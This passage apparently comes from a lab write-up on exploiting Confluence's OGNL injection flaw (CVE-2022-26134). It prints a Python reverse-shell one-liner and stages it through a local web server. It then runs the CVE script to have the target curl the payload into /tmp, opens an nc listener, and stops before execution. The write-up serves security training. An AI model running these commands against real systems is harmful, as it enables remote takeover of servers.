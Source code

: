 trying a bunch of bash based shell will not work and generally as good rule of thumb for Java based exploit (specially the one that relies on reflection) it is better to use payload that can be spawned as subprocess of the application.

for this case I will be using python “subprocess” modules

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.245",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

to avoid breaking the exploit payload itself we need to transfer this in a file and execute it on the target host

1. file creation 

```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu]
└─$ cat exploit.sh                                            
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.245",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

1. setup a webserver to where [exploit.sh](http://exploit.sh) is located

```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

1. retrieve the file using the OGNL injection and store it in /tmp/

```python
──(kali㉿kali)-[~/Desktop/pg_ground/flu/CVE-2022-26134]
└─$ python CVE-2022-26134.py http://192.168.157.41:8090 'curl http://192.168.45.245/exploit.sh -o /tmp/payload'
Confluence target version: 7.13.6

```

protip: not all directory can be writable to every user, but whever it is windows or linux some of them are writeable. for this use case we are using **/tmp** 

1. setup a listener on our host

```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

1. execute the payload
